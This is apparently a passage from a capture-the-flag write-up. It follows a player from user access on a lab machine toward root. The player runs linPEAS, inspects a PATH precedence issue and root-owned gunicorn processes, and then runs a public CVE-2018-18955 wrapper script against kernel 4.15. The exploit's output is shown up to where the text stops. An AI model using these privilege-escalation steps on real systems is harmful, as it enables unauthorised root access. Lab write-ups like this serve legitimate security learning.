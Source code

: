  * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Last login: Mon May 13 22:38:30 2024 from 192.168.62.137
beth@london:~$ 
```

As such, we are now able to access the user flag located at `__pycache__`.

For the root flag, I'll send over a linPEAS script to automate our work and see where that takes us. Something was immediately brought to my attention:

```
/home/beth/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```
the PATH variable shows that the `.local/bin` directory for beth takes precedence before any other system directory. root also happens to have a few python instances running off of files located in this directory:

```
root       455  0.0  1.1  75640 22164 ?        Ss   Sep15   0:00 /usr/bin/python3 /home/beth/.local/bin/gunicorn --config gunicorn_config.py app:app
root       457 14.4  2.4 405160 49656 ?        Sl   Sep15  14:39  _ /usr/bin/python3 /home/beth/.local/bin/gunicorn --config gunicorn_config.py app:app
root       458  5.7  2.3 403500 47640 ?        Sl   Sep15   5:50  _ /usr/bin/python3 /home/beth/.local/bin/gunicorn --config gunicorn_config.py app:app
```

unfortunately however, there isn't much we can do beyond this. Modifying the file won't do much as the processes don't periodically restart. So i decided to check if there are any other possible vectors.

I tried to use the baron samedit exploit but that didn't work.
What did, however, was the subuid_shell exploit.

Recall in our nmap scan that nmap reported linux 4.15. Running `uname -a` shows that that is indeed the case.
```
Linux london 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

looking up `4.15.0-112 ubuntu exploit` got me [this wrapper for CVE-2018-18955](https://github.com/scheatkode/CVE-2018-18955)

Trying out each script, one of them yields something nice.

```
$ ./exploit.dbus.sh 
[*] Compiling...
[*] Creating /usr/share/dbus-1/system-services/org.subuid.Service.service...
[.] starting
[.] setting up namespace
[~] done, namespace sandbox set up
[.] mapping subordinate ids
[.] subuid: 100000
[.] subgid: 100000
[~] done, mapped subordinate ids
[.] executing subshell
[*] Creating /etc/dbus-1/system.d/org.subuid.Service.conf...